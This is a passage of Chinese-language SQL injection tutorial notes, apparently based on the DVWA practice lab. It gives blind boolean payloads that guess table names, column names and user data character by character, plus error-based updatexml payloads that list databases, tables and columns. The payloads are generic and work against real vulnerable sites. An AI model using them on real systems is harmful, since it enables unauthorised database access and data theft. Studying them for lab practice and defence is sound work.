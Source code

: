   * 猜表的名字
  猜解第一个表名的第一个字符长度是否为：g
  ```sql
  1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103 # 返回正常
  ```
  语法格式是：
  ```sql
  1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit i,1),n,1))>97 #
  ```
  i 是第几个表
  n 是第几个字符长度
  
* **猜解表中的字段名**
  * 猜解第一个字段名的第一个字符为：u
  ```sql
  1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1,1))=117 #
  ```
  
  * 猜解第一个字段名的第二个字符为：s
  ```sql
  1' and ascii(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),2,1))=115 #
  ```
  
* **猜解数据**
  * 猜解 dvwa.users 表下的 user 列的第一个字段内容为：a
  ```sql
  1' and ascii(substr((select user from dvwa.users limit 0,1),1,1))=97 # 
  ```
  
### 【显错注入】

* **列数据库名**
  * 查看数据库名，修改limit后的数字0，可以查看每一个数据库名
  ```sql
  ' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1)--+
  ```
  
  * 查看当前数据库名
  ```sql
  ' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
  ```
  
* **列表名**
  * 列出当前数据库的表名，修改limit后的0，可以查看数据库中每一个表名
  ```sql
  ' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='要查找的数据库名' limit 0,1),0x7e),1)--+
  ```
  
* **列出列名**
  * 列出当前表的列名，修改limit后的0，可以查看表中每一个列名
  ```sql
  ' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='要查找的表名' limit 0,1),0x7e),1)--+
  ```
  